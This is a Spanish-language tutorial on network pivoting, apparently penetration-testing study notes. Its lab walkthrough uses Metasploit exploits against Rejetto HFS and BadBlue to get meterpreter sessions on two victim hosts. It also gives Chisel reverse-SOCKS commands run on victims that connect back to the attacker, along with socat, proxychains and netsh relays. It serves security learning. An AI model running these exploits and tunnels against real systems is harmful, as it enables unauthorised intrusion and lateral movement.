 # Pivoting en Ciberseguridad

## Introducción
El pivoting es una técnica esencial en el mundo de la ciberseguridad que implica moverse lateralmente dentro de una red comprometida para acceder a sistemas y recursos adicionales. Esta técnica es utilizada por los profesionales de seguridad para mantener y expandir el acceso a través de una infraestructura comprometida.

## ¿Qué es el Pivoting?
En términos sencillos, el pivoting se refiere a la acción de utilizar una máquina comprometida como punto de entrada para acceder a otros sistemas dentro de la red. Esta técnica es particularmente útil cuando se ha obtenido acceso a un sistema perimetral y se busca infiltrarse en segmentos de red más internos.

## Tipos de Pivoting
Existen varios tipos de pivoting en función de cómo se realiza el movimiento lateral:

- **Pivoting Directo:** Se realiza desde la máquina comprometida hacia otros sistemas dentro de la misma red.
- **Pivoting a Través de Saltos:** Implica moverse a través de múltiples máquinas comprometidas para alcanzar el objetivo deseado.
- **Pivoting en Cadena:** Consiste en conectar varios sistemas comprometidos para llegar a la red objetivo.

## Herramientas y Técnicas
Para llevar a cabo el pivoting, los profesionales de seguridad utilizan herramientas y técnicas específicas, como:

- **SSH Túneles:** Establecer conexiones seguras a través de SSH para redirigir tráfico.
- **Proxychains:** Enrutamiento de tráfico a través de una cadena de proxies.
- **Port Forwarding:** Redireccionamiento de puertos para acceder a servicios internos.
- **VPN y Socks:** Uso de VPN o servidores SOCKS para ocultar el origen del tráfico.

## Importancia en la Ciberseguridad
El pivoting es una habilidad crucial para los analistas de seguridad y los pentesters, ya que les permite comprender la amplitud de una infracción y evaluar la exposición potencial en una red comprometida. Además, ayuda a identificar y remediar posibles puntos de entrada y movimiento lateral en futuros ataques.

## Caso Práctico
![Pivoting](pivoting.png)

Esta imagen en lo personal me encanta, ilustra de manera perfecta de lo que quiere tratar el pivoting, en base a esta imagen vamos a tener una máquina víctima con IP 10.4.20.196 y otra máquina víctica con IP 10.4.20.195. El primer equipo, es vulnerable a rejetto_hfs_exec.
```python
Victim Machine 1 : 10.4.20.196
Victim Machine 2 : 10.4.20.195
nmap -sV 10.4.20.196
//tiene una vulnerabilidad en 80/tcp    open  http               HttpFileServer httpd 2.3
use exploit/windows/http/rejetto_hfs_exec
set rhosts 10.4.20.196
ipconfig
//Interface 12 vemos lo siguiente
IPv4 Address : 10.4.20.196
IPv4 Netmask : 255.255.240.0
//debemos de establecer un ruteo para leer otras IP
run autoroute -s 10.4.20.0/20
background (ahora si guardamos la sesión)
use auxiliary/scanner/portscan/tcp (para escanear puertos)
set rhosts 10.4.20.195 (IP target 2)
set PORTS 1-100
run
//veremos algo como esto
[+] 10.4.20.195:          - 10.4.20.195:80 - TCP OPEN
//retornamos a la sesion para hacer un port foward
session 1
portfwd add -l 1234 -p 80 -r 10.4.20.195 (IP del target 2)
portfwd list (para validar)
//sin cerrar metasploit ejecutamos los siguiente en una terminal
nmap -sV -sS -p 1234 localhost
1234/tcp open  http    BadBlue httpd 2.7
//hay una vulnerabalidad para eso
use exploit/windows/http/badblue_passthru
set PAYLOAD windows/meterpreter/bind_tcp
set RHOSTS 10.4.20.195 (IP del objetivo 2)
run
background
session
(veremos 2 sesiones !!)
```

## Chisel, Socat y Proxychains
Como no hablar del favorito de todos, te permite realizar el pivoting y moverte de forma lateral por la red teniendo el control de las comunicaciones. Chisel es una herramienta que permite crear túneles TCP sobre conexiones HTTP y HTTPS. Puede ser utilizado tanto en la máquina comprometida como en la máquina atacante para establecer una comunicación segura y encriptada entre ellas. Chisel es útil para sortear restricciones de firewall y para acceder a sistemas internos desde una posición comprometida. Socat es una utilidad multipropósito que permite crear conexiones bidireccionales entre dos puntos. Puede utilizarse para redirigir tráfico, modificar datos en tránsito y más. Socat es versátil y se adapta a diversas necesidades de pivoting. Proxychains es una herramienta que permite enrutar conexiones a través de una cadena de servidores proxy. Es especialmente útil para mantener el anonimato y redirigir tráfico a través de múltiples puntos.

## Chisel

```python
./chisel server --reverse -p 1234 (servidor - tu equipo)
./chisel client 192.168.1.41:1234 R:socks (cliente - víctima)
./chisel client 10.10.0.128:2111 R:8888:socks (segundo cliente - víctima)
```

## Socat

```python
./socat TCP-LISTEN:4343,fork TCP:192.168.1.41:8080
```

## Proxychains

```python
socks5  127.0.0.1 8888
socks5  127.0.0.1 1080
```

## Netsh - Socat en Windows

```python
netsh interface portproxy add v4tov4 listenport=8787 listenaddress=0.0.0.0 connectport=8788 connectaddress=192.168.100.128
```

Toma en cuenta lo siguiente, conforme vas aumentando los clientes con el chisel, el puerto debe de ir en el proxychains y lo pones encima del último que has agregado como se muestra en el ejemplo proporcionado.
